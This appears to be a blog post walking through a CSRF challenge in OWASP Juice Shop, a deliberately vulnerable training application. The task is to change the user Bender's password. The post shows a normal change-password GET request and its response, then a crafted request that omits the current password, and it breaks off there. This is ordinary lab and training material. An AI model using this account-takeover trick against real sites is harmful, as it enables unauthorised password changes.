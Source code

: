 ```yaml
---
layout: post
title:  "OWASP Juice Shop v7.3.0 - Level 4"
date:   2018-08-08
---
```


[OWASP Juice Shop](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)

![level 4](/img/owasp-juice-shop-v7.3.0/juice016.png) 

# CSRF
> Change Bender's password into slurmCl4ssic without using SQL Injection.

Start by performing a normal password reset to observe the flow. A submission to the Change Password form looks like this,

```
GET /rest/user/change-password?current=passpass&new=passpass2&repeat=passpass2 HTTP/1.1
[...]
```

```
HTTP/1.1 200 OK
[...]

{"user":{"id":9,"email":"a@a.a","password":"49bbdb096bd59f0869ed9e877771505c","createdAt":"2018-08-02T00:56:00.473Z","updatedAt":"2018-08-08T01:01:44.506Z"}}
```

I expecpted this would be a GET request as it's a CSRF challenge and presumably we'll have Bender click a link to change his password.

Wouldn't it be super bad if the application would accept a change of password request that didn't include the current password?

```
GET /rest/user/change-password?new=passpass3&repeat=passpass3 HTTP/1.1
[...]
```

